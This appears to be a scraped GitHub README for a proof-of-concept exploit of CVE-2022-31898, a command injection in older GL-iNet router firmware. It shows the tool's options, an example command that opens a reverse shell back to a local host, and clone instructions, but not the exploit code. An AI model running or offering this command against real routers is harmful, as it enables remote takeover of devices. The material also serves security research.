 # cve-2022-31898

Exploit POC code for CVE-2022-31898, a command injection for GL-iNet routers with firmware below 3.215

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/gigaryte](https://github.com/gigaryte) |
| Url      | [https://github.com/gigaryte/cve-2022-31898](https://github.com/gigaryte/cve-2022-31898)                                               |
| Stars    | 15                                                          |
| License  | GNU General Public License v3.0                                                        |

<details>

<summary>Topic / Tags</summary>

* command-injection* cve-2022-31898* exploit* gl-inet

</details>

## Readme

# cve-2022-31898
Exploit POC code for CVE-2022-31898, a command injection for GL-iNet routers with firmware below 3.215

# Usage

```
./cve-2022-31898.py -h
usage: cve-2022-31898.py [-h] -R RHOST [-P RPORT] -L LHOST [-l LPORT] [-p PWD] [-t]

options:
  -h, --help            show this help message and exit
  -R RHOST, --rhost RHOST
                        IP/hostname of Mango router
  -P RPORT, --rport RPORT
                        Port to connect to Mango router on
  -L LHOST, --lhost LHOST
                        Local host/IP for reverse shell to connect back to
  -l LPORT, --lport LPORT
                        Local port for reverse shell to connect back on
  -p PWD, --pwd PWD     Password to use to log in
  -t, --https           If set, use HTTPS
```

## Example

Exploit GL-iNet router at `192.168.8.1` over HTTPS and connect back to local box at
`192.168.8.123:8008` with admin password `password`:

```
./cve-2022-31898.py -R 192.168.8.1 -P 443 -L 192.168.8.123 -l 8008 -p password -t
```



## Get the content

```
git clone https://github.com/gigaryte/cve-2022-31898
cd cve-2022-31898
```

{% embed url="https://github.com/gigaryte/cve-2022-31898" %}

<figure><img src="https://avatars.githubusercontent.com/u/8154801?v=4" alt=""><figcaption><p>gigaryte</p></figcaption></figure>
